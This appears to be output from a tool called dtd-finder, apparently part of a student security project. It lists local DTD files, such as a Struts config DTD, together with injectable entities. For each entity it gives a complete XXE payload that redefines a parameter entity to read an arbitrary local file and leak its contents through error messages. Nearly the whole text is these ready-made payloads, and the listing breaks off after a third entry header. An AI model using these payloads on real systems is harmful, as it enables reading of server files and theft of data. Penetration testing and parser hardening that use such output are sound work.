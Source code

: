  --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_3.dtd`

**Injectable entity:** `ClassName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_3.dtd">

    <!ENTITY % ClassName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_3.dtd`

**Injectable entity:** `Integer`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_3.dtd">

    <!ENTITY % Integer '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_3.dtd`

